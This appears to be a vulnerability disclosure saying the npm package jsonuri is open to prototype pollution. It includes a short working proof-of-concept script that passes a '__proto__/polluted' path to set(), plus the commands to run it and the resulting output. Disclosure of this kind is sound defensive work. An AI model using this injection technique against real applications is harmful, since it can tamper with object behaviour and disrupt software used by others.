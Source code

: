 # Description

`jsonuri` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const {set} = require('jsonuri')
var obj = {}
console.log("Before : " + {}.polluted);
set({}, ['__proto__/polluted'], 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i jsonuri # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
